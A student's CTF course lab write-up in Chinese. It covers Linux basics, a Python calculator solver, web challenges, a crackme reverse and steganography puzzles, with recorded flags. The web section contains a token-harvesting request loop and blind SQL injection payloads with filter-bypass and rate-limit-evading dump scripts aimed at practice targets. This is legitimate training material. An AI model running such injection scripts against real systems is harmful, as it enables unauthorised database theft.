




import Asciinema from '@/components/md-comp/AsciinemaWrapper.vue'


# Prerequisite

## Challenge 1 Linux 环境的搭建与简单使用


> 在实验报告中给出**任意 4 个** shell 命令的用法介绍以及在 Linux 环境下的实操截图；

1. `ls`: 列出目录中的文件和子目录。
    - `-l`: 以长格式列出文件和目录的详细信息
    - `-a`: 显示所有文件，包括隐藏文件

import cast1 from './casts/lab0-p1.cast?raw';

<Asciinema cast={cast1} />

2. `cat`: 显示文件内容。
  - `-n`: 显示行号
  - `-b`: 显示非空行的行号


import cast2 from './casts/lab0-p2.cast?raw';

<Asciinema cast={cast2} />

3. `touch file`创建一个文件（虽然真正的用途是Update the access and modification times of each FILE to the current time）,`mkdir dir`创建一个目录

import cast3 from './casts/lab0-p3.cast?raw';

<Asciinema cast={cast3} />

4. `rm`: 删除文件或目录。
  - `-r`: 递归删除目录及其内容
  - `-f`: 强制删除文件，不提示确认

import cast4 from './casts/lab0-p4.cast?raw';

<Asciinema cast={cast4} />

> 完成 [SadServers](https://sadservers.com/) 上的题目 ["Saint John": what is writing to this log file?](https://sadservers.com/scenario/saint-john) 给出解答以及通过截图。



> A developer created a testing program that is continuously writing to a log file /var/log/bad.log and filling up disk. You can check for example with `tail -f /var/log/bad.log`.

显然~~资本动了我的log文件~~通过`lsof | grep bad.log`可以看到是一个`badlog.py`进程在写入这个log文件,通过`ps aux | grep badlog.py`可以看到这个进程的PID是576,所以我们直接`kill 576`。


## Challenge 2 基础的 Python 编程

> 1. 请阅读和执行如下 Python 程序，在实验报告中并解释其功能:
> 
>     ```python
>     #!/usr/bin/python3
> 
>     data = input("give me your string: ")
>     print("length of string:", len(data))
> 
>     data_old = data
>     data_new = ""
>     for d in data:
>         if d in 'abcdefghijklmnopqrstuvwxyz':
>             data_new += chr(ord(d) - 32)
>         elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
>             data_new += chr(ord(d) + 32)
>         else:
>             data_new += d
> 
>     print("now your string:", data_new)
>     ```


- 该程序的功能是将输入的字符串中的字母大小写进行转换，并输出**原字符串的长度**和**转换后的字符串**。

```python
for d in data:
    if d in 'abcdefghijklmnopqrstuvwxyz':
        data_new += chr(ord(d) - 32)  # 将小写字母转换为大写字母（ascii码-32）
    elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
        data_new += chr(ord(d) + 32)  # 将大写字母转换为小写字母（ascii码+32）
    else:
        data_new += d                 # 其他字符不变
```


> 2. 请通过 Python 编程解决[校巴](https://zjusec.com)上 [calculator](https://zjusec.com/challenges/27) 这道编程题（需要内网访问），在实验报告中给出完整代码、成功解决的截图以及正确的 flag。

```python
from pwn import *

sh = remote("10.214.160.13", 11002)

for _ in range(7):
    print(sh.recvline().decode())

for __ in range(10):
    arith = sh.recv().decode().strip().split('=')[0]
    ans = eval(arith)
    sh.sendline(str(ans).encode())
    success("Calculate "+arith+'='+str(ans))
    for _ in range(3):
        print(sh.recvline().decode())
sh.interactive()
```

import cast5 from "./casts/lab0-p5.cast?raw"

<Asciinema cast={cast5} />

`AAA{melody_loves_doing_calculus_qq_qun_386796080}`



# Web

## Challenge 1

> 请访问网址 [http://pumpk1n.com/lab0.php](http://pumpk1n.com/lab0.php)
> 这个神奇的页面藏着一个 flag，请尝试找到它，并在实验报告中记录你的过程。

view source, 注意到

```js
function getflag() {
    fetch('/flag.php?token=b134e5cb029c41cd')
        .then(res => res.text())
        .then(res => alert(res))
}
```

我们直接访问该网址，它说`One more time! 1 / 1337`，重放发现`wrong token`

所以我们~~不能耍小聪明，只能点开连点器~~开始写脚本

```js
const Cookie = "PHPSESSID=rd09cfgm964nmagivo0g5vq6sh"

;(async()=>{
for(let i = 0 ; i < 1379; i ++){
    await fetch("http://pumpk1n.com/lab0.php",{headers:{Cookie}})
    .then(v=>v.text()).then(o=>{
        return /token=([a-z0-9]+)'/.exec(o)[1]
    }).then(async(token)=>{
        const result = await fetch(
            "http://pumpk1n.com/flag.php?token="+token,{headers:{Cookie}})
        .then(v=>v.text())
        console.log("#",i,"token",token,"result",result);
        
    })
}
})();
```

import cast6 from './casts/lab0-p6.cast?raw';

<Asciinema cast={cast6} />

`flag{56297ad00e70449a16700a77bf24b071}`

## Challenge 2

> 这里选取一个比较经典的题：[Hack World](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)

~~sqlmap启动(结果没爆出来)~~

发现部分输入会`SQL Injection Checked.`，首先空格被ban了我们得来一个[No Space Bypass](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html#no-spaces-bypass),试了一下发现`%0A`可以替换空格绕过

但是`union`疑似也被ban了，所以我们的`1 union select flag from flag`大法失效了

所以只能试试布尔盲注[Exploiting Blind SQLi](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html#exploiting-blind-sqli)

> In this case you cannot see the results of the query or the errors, but you can **distinguished** when the query return a **true** or a **false** response because there are different contents on the page. In this case, you can abuse that behaviour to dump the database char by char

中间省略，总之造了一个payload`(ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),1,1))=102)`发现能dump

```js
(async () => {
  for (let i = 0; i < 100; i++) {
    for (let char = 0; char < 256; char++) {
      if (await fetch("http://c3b67b65-dccc-4d8e-a6d1-2275baa54bb5.node5.buuoj.cn:81/index.php", {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `id=1%20and%20ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),${i},1))=${char}`
      }).then(v => v.text()).then(o => {
        if (/Hello, glzjin wants a girlfriend./.test(o)) {
          return true
        } else {
          return false
        }
      })) {
        console.log("flag[", i, "]:", String.fromCharCode(char))
        break
      }
    }

  }
})();
```

爆了半天发现我们还有《429 Too many requests》


遂做如下修改（因为说了`flag{}`里面是uuid，所以charset可以放很小）：
```js
let flag=[];

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
const charset = "0123456789abcdef-lag{}"
;(async () => {
  for (let i = 0; i < 100; i++) {
    for (let char in charset) {
      if (await fetch("http://c3b67b65-dccc-4d8e-a6d1-2275baa54bb5.node5.buuoj.cn:81/index.php", {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `id=(ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),${i},1))=${charset[char].charCodeAt(0)})`
      }).then(v => v.text()).then(o => {
        console.log(i,charset[char],o.length);
        
        if (/Hello, glzjin wants a girlfriend./.test(o)) {
          return true
        } else {
          return false
        }
      })) {
        flag[i]=charset[char]
        console.log("flag[", i, "]:", charset[char])
        console.log("flag:", flag.join(""));
        
        break
      }
      await sleep(100);
    }
  }
})();
```

import cast10 from './casts/lab0-p10.cast?raw';

<Asciinema cast={cast10} />



# Reverse

> 参考难度：★★
> 
> [题目下载链接](https://github.com/team-s2/ctf_summer_courses/raw/master/src/intro/lab0/crackme)
> 
> 1. 尝试通过反汇编/反编译工具逆向该可执行 ELF 程序，并成功通过输入获得 `Access Granted` 的提示。请在报告中给出逆向步骤；
> 2. （可选）思考逆向该 crackme 的过程中，有无什么可能的取巧、自动的方式；

IDA启动

```c
bool __cdecl verify(char *passwd)
{
  int v2; // ecx
  int v3; // r8d
  int v4; // r9d
  char v5; // [rsp+0h] [rbp-F0h]
  int i; // [rsp+18h] [rbp-D8h]
  char *table[14]; // [rsp+20h] [rbp-D0h]
  char tmp[64]; // [rsp+90h] [rbp-60h] BYREF
  unsigned __int64 v9; // [rsp+D8h] [rbp-18h]

  v9 = __readfsqword(0x28u);
  table[0] =  "1040";
  table[1] =  "1040";
  table[2] =  "1040";
  table[3] =  "1968";
  table[4] =  "1152";
  table[5] =  "1680";
  table[6] =  "1312";
  table[7] =  "1616";
  table[8] =  "1888";
  table[9] =  "1616";
  table[10] = "1824";
  table[11] = "1840";
  table[12] = "1616";
  table[13] = "2000";
  if ( j_strlen_ifunc(passwd) != 14 )
    return 1;
  memset(tmp, 0, sizeof(tmp));
  for ( i = 0; i < (unsigned __int64)j_strlen_ifunc(passwd); ++i )
  {
    sprintf((unsigned int)tmp, (unsigned int)"%d", 16 * passwd[i], v2, v3, v4, v5);
    if ( (unsigned int)j_strcmp_ifunc(tmp, table[i]) )
      return 1;
  }
  return 0;
}
```

瞪眼法得知：用户输入的内容每一位的ascii码乘以16后转为字符串与`table`中的对应元素进行比较

```js
const table = [
    "1040",
    "1040",
    "1040",
    "1968",
    "1152",
    "1680",
    "1312",
    "1616",
    "1888",
    "1616",
    "1824",
    "1840",
    "1616",
    "2000"
]
table.map((v)=>String.fromCharCode(v/16)).join("")
```

`AAA{HiReverse}`

import cast8 from './casts/lab0-p8.cast?raw';

<Asciinema cast={cast8} />

# Misc


## Challenge 1

`AAA{wELc0m3_t0_Ctf_5umMEr_c0UrsE_2025}`

都说了要用Cyberchef那我肯定得欣然接受啊.jpg

- `From_Base85('!-u',true,'z')`
- `From_Base64('A-Za-z0-9+/=',true,false)`
- `From_Base32('A-Z2-7=',false)`

查看[Recipe](https://lab.tonycrane.cc/CyberChef/#recipe=From_Base85('!-u',true,'z')From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base32('A-Z2-7%3D',false)&input=O2NSIWY8YE1qTDllZzxSPGJsNTo7RDlnbzwsNiM/PENVWG88KWxYSztjUFoiO0Q5aC49KTsmOjxidTtJOWwqRXI8QThWTzxHWVEiPGJscVo8JXAwdDxiYmY1PEdZLHE7Y0hAbDlrbEBCOmYwQT0)

## Challenge 2



- 第一部分：`AAA{gr3@t_J08!_1et'5_`使用~~瞪眼法仔细观察图片~~Stegsolve惊喜地发现把数据写到RGB三个通道的plane 0上了
- 第二部分是`zsteg`说的

```plain
[?] 19 bytes of extra data after image end (IEND), offset = 0x1dc7a
extradata:0         .. text: "P1@y_m1SC_TOG3Th3R}"
```

拼起来是`AAA{gr3@t_J08!_1et'5_P1@y_m1SC_TOG3Th3R}`